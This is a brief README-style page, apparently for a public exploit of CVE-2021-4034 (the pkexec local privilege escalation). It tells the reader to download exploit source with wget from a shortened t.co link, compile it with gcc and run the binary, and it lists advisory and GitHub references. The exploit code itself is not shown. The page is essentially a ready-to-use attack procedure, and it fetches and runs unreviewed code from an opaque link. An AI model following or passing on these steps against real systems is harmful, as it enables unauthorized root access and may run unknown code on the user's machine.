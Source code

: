 ### Download exploit
```
wget https://t.co/uwLR65WjDY -O exploit.c
```

### Compile
```
gcc exploit.c
```

### Execute
```
./a.out
```

### References
https://www.openwall.com/lists/oss-security/2022/01/25/11  
https://twitter.com/bl4sty/status/1486095005605318659  
https://github.com/berdav/CVE-2021-4034  


